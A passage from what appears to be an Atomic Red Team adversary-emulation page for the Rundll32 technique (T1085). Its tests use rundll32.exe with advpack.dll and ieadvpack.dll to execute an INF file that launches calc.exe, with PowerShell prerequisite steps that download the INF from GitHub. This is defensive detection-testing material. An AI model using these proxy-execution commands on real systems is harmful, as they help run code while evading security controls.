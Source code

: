 
#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32.exe advpack.dll,LaunchINFSection #{inf_to_execute},DefaultInstall_SingleUser,1,
```




#### Dependencies:  Run with `powershell`!
##### Description: Inf file must exist on disk at specified location (#{inf_to_execute})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_to_execute}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_to_execute}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/emrahkaya/atomic-red-team/raw/feature/v6/atomics/T1085/src/T1085.inf" -OutFile "#{inf_to_execute}"
```




<br/>
<br/>

## Atomic Test #4 - Rundll32 ieadvpack.dll Execution
Test execution of a command using rundll32.exe with ieadvpack.dll.
Upon execution calc.exe will be launched

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Ieadvpack.yml

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1085&#92;src&#92;T1085.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32.exe ieadvpack.dll,LaunchINFSection #{inf_to_execute},DefaultInstall_SingleUser,1,
```




#### Dependencies:  Run with `powershell`!
##### Description: Inf file must exist on disk at specified location (#{inf_to_execute})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_to_execute}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_to_execute}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/emrahkaya/atomic-red-team/raw/feature/v6/atomics/T1085/src/T1085.inf" -OutFile "#{inf_to_execute}"
```
